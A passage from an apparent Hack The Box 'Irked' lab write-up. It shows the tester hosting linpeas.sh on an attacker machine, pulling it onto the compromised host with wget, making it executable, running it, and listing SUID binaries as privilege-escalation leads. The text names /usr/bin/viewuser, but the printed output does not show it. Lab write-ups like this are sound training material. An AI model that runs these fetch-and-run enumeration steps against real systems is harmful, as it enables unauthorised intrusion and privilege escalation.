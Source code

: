 ```sh
Length: 839766 (820K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 820.08K  2.77MB/s    in 0.3s    

2025-01-27 13:00:34 (2.77 MB/s) - ‘linpeas.sh’ saved [839766/839766]
```
{% endraw %}

<br />
Start a webserver to serve the exploit.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ python -m 'http.server'
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Transfer the linpeas.sh to the victim machine.

{% raw %}
```sh
ircd@irked:~$ wget http://10.10.16.12:8000/linpeas.sh
wget http://10.10.16.12:8000/linpeas.sh
--2025-01-26 21:00:59--  http://10.10.16.12:8000/linpeas.sh
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 839766 (820K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[=====================>] 820.08K  1.04MB/s   in 0.8s   

2025-01-26 21:01:00 (1.04 MB/s) - ‘linpeas.sh’ saved [839766/839766]

ircd@irked:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
```
{% endraw %}

<br />
Run linpeas.sh and notice the /usr/bin/viewuser (Unknown SUID binary!) in the results.  Looks interesting.

{% raw %}
```sh
ircd@irked:~$ ./linpeas.sh
./linpeas.sh

<snip>

-rwsr-xr-x 1 root root 9.3K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14K Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 550K Nov 19  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14K Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper (Unknown SUID binary!)
-rwsr-xr-x 1 root root 1.1M Feb 10  2018 /usr/sbin/exim4
-rwsr-xr-- 1 root dip 332K Apr 14  2015 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 43K May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 root mail 94K Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 77K May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 38K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
```